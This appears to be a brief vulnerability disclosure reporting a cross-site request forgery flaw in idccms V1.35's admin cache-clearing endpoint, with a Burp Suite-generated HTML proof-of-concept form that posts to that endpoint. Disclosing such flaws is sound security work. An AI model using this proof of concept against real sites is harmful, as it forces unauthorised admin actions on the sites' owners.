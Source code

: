 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/readDeal.php?mudi=clearWebCache&mode=noAlert&_=1714026444586

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/readDeal.php?mudi=clearWebCache&mode=noAlert&_=1714026444586" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
